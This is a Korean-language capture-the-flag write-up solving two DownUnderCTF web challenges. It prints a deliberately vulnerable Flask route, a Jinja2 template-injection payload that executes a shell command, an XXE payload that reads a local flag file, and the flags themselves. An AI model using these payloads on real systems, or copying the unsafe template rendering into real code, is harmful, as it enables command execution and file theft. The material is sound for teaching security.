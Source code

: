 ## parrot the emu | 100 | SSTI 

It is so nice to hear Parrot the Emu talk back

Author: richighimi

제공파일 : [parrot-the-emu](./parrot-the-emu.zip)

```python
@app.route('/', methods=['GET', 'POST'])
def vulnerable():
    chat_log = []

    if request.method == 'POST':
        user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input) #SSTI vuln
        except Exception as e:
            result = str(e)

        chat_log.append(('User', user_input))
        chat_log.append(('Emu', result))
    
    return render_template('index.html', chat_log=chat_log)
```

`{{cycler.init.globals.os.popen('cat flag*').read()}}` 를 입력하면 Flag가 출력 된다.

DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}

<br>
<br>

## zoo feedback form | 100 | XXE

The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!

Author: richighimi

제공파일 : [zoo-feedback-form](./zoo-feedback-form.zip)

```python
docker build -t feedback .
docker run -p 8080:3000 feedback
```

<br>

XML 형식으로 패킷을 보낸다. => XXE 가능
```python
<?xml version="1.0" encoding="UTF-8"?>
<root>
      <feedback>123</feedback>
</root>
```

<br>

```python
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///app/flag.txt"> ]>
            <root>
                <feedback>&xxe;</feedback>
            </root>
            
```
위 요청을 보내 Flag를 획득했다.

DUCTF{emU_say$_he!!0_h0!@_ci@0}
